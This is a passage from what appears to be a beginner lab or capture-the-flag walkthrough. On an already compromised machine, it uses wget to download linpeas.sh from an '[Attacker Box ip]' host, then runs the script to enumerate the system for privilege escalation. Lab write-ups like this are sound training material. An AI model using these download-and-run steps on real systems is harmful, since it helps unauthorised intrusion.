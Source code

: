 In the shell we got use `wget` to get the `linpeas.sh`  from our server

```
wget http://[Attacker Box ip]/linpeas.sh
```

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/cf3e34f84370b3d8784b64bc250d010a760648ca/Academy/images/sendingpeas.png)

Now let's run our script before that we have to make it executable

```
$ chmod +x linpeas.sh
$ ./linpeas.sh

```

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/ef2a1d1f4ec504a1ffa12207eb4df8c8fd600a31/Academy/images/linwork.png)
And it gives you a huge information about the machine
